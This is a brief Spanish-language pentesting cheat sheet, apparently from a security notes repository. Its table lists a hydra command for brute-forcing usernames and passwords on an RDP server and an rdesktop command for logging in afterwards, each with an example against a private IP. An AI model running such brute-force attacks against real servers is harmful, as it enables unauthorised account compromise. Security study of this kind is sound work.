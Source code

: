 | Comando                                                    | Descripción                                                | Ejemplo                                                   |
| ---------------------------------------------------------- | ---------------------------------------------------------- | --------------------------------------------------------- |
| hydra -L \<usernames.txt> -p \<password> <ip_servidor> rdp | Fuerza bruta contra usuario/contraseña de un servidor RDP. | hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp |
| rdesktop -u \<usuario> -p <contraseña> <ip_servidor>       | Logon en servidor RDP                                      | rdesktop -u admin -p password123 192.168.2.143            |
|                                                            |                                                            |                                                           |

